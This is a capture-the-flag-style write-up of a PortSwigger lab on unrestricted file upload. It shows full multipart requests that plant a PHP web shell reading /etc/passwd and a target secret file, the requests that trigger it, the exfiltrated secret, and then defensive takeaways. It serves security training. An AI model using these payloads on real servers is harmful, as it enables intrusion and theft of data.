


# File Upload - Remote Code Execution via Web Shell Upload

## Overview

**Lab:** Remote code execution via web shell upload  
**Platform:** PortSwigger Web Security Academy  
**Difficulty:** APPRENTICE  
**Category:** File Upload Vulnerabilities

## Objective

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

**Credentials:** `wiener:peter`

## Reconnaissance

### Initial Analysis

After logging in with the provided credentials, the application presents a user profile page (`/my-account`) with an avatar upload feature. This feature allows users to upload image files, which are then stored on the server's filesystem.

The first thing I wanted to understand was: **how does the server handle uploaded files?** Specifically, I needed to determine:

1. Whether the server validates the file type/extension before storing it
2. Where the uploaded files are stored on the filesystem
3. Whether the server executes server-side scripts placed in the upload directory

### Target Endpoint

```
POST /my-account/avatar
```

### Mapping the Upload Flow

By intercepting the upload request with Burp Suite, I observed the multipart form data structure. The request sends three fields: `avatar` (the file), `user` (the username), and `csrf` (the CSRF token). The response reveals the exact path where the file is stored.

I also enabled the image filter in Burp's HTTP history to capture the subsequent `GET` request the browser makes to load the avatar. This revealed the file is served from:

```
GET /files/avatars/<filename>
```

This is a critical observation — the uploaded files are directly accessible via a predictable URL pattern, meaning if I can upload executable code, I can trigger it by simply requesting that URL.

## Exploitation

### Step 1: Testing for File Type Validation

I intercepted the avatar upload request and modified it to upload a PHP file instead of a legitimate image. The goal was to check if the server rejects non-image files.

**Modified Upload Request:**

```
POST /my-account/avatar HTTP/2
Host: 0ab2004204b0dc23809794340027005a.web-security-academy.net
Cookie: session=JJqIqaWjsCx5VP57DHdm2nWKv3uu6hcx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6xmRjTSYfB3N7IAZ

------WebKitFormBoundary6xmRjTSYfB3N7IAZ
Content-Disposition: form-data; name="avatar"; filename="myexploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/etc/passwd'); ?>
------WebKitFormBoundary6xmRjTSYfB3N7IAZ
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary6xmRjTSYfB3N7IAZ
Content-Disposition: form-data; name="csrf"

Rtv2qWD0EF9pSpGzzte2wM3jx7OvicrC
------WebKitFormBoundary6xmRjTSYfB3N7IAZ--
```

Key aspects of this test:
- The filename was changed to `myexploit.php` (a server-side script extension)
- The `Content-Type` header was kept as `image/jpeg` to see if the server relies on this for validation
- The file body contains a PHP one-liner that reads `/etc/passwd` as a proof of concept

**Response:**

```
HTTP/2 200 OK
Server: Apache/2.4.41 (Ubuntu)

The file avatars/myexploit.php has been uploaded.
```

The server accepted the `.php` file without any validation — no extension check, no content-type verification, no magic byte inspection. This confirms **zero file upload filtering**.

### Step 2: Confirming Server-Side Execution

Uploading a PHP file is only dangerous if the server actually executes it. To confirm this, I sent a `GET` request to the uploaded file:

```
GET /files/avatars/myexploit.php HTTP/2
Host: 0ab2004204b0dc23809794340027005a.web-security-academy.net
```

Instead of returning the raw PHP source code, the server **executed the script** and returned the contents of `/etc/passwd` in the response body. This confirms two critical findings:

1. The upload directory is within the web root and files are directly accessible
2. The Apache server is configured to execute `.php` files in the upload directory

At this point, we have **full Remote Code Execution (RCE)** through a web shell.

### Step 3: Exfiltrating the Target Secret

With RCE confirmed, I modified the PHP payload to read the target file `/home/carlos/secret`:

```
------WebKitFormBoundary6xmRjTSYfB3N7IAZ
Content-Disposition: form-data; name="avatar"; filename="myexploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundary6xmRjTSYfB3N7IAZ
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary6xmRjTSYfB3N7IAZ
Content-Disposition: form-data; name="csrf"

Rtv2qWD0EF9pSpGzzte2wM3jx7OvicrC
------WebKitFormBoundary6xmRjTSYfB3N7IAZ--
```

Then triggered the execution:

```
GET /files/avatars/myexploit.php HTTP/2
Host: 0ab2004204b0dc23809794340027005a.web-security-academy.net
```

**Response:**

```
jYP2h6GlUCmAiJlQgrzJI37ShNUCdyyt
```

The secret was successfully exfiltrated. Submitting this value completed the lab.

## ✅ Solution

### Exploit Steps

1. Log in with `wiener:peter` and navigate to the avatar upload feature
2. Intercept the upload request and replace the image with a PHP web shell
3. Confirm the server stores the file without validation (`avatars/myexploit.php`)
4. Request the uploaded file to verify the server executes PHP in the upload directory
5. Re-upload the web shell targeting `/home/carlos/secret`
6. Trigger the web shell via `GET /files/avatars/myexploit.php` to exfiltrate the secret

### Final Payload

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

### Verification

The server returned the secret `jYP2h6GlUCmAiJlQgrzJI37ShNUCdyyt` in the HTTP response, confirming full read access to arbitrary files on the server through the web shell.

## Screenshots





## Key Takeaways

- **Never trust client-side headers:** The `Content-Type: image/jpeg` header was irrelevant — the server should validate actual file contents (magic bytes) rather than relying on client-provided metadata
- **Validate file extensions server-side:** The server accepted a `.php` extension without restriction. A whitelist-based approach (e.g., only `.jpg`, `.png`, `.gif`) should be enforced
- **Isolate upload directories from execution:** Even if a malicious file is uploaded, the server should not execute scripts in the upload directory. Apache's `php_flag engine off` directive or storing files outside the web root prevents this
- **Defense in depth matters:** This vulnerability exists because multiple layers of security failed simultaneously — no input validation, no extension filtering, no content inspection, and script execution enabled in the upload path
- **Predictable file paths increase risk:** The uploaded file was accessible at a guessable URL (`/files/avatars/<filename>`), making exploitation trivial once the file was stored

## References

- [PortSwigger - File Upload Vulnerabilities](https://portswigger.net/web-security/file-upload)
- [PortSwigger - Exploiting unrestricted file uploads](https://portswigger.net/web-security/file-upload#exploiting-unrestricted-file-uploads-to-deploy-a-web-shell)
- [OWASP - Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)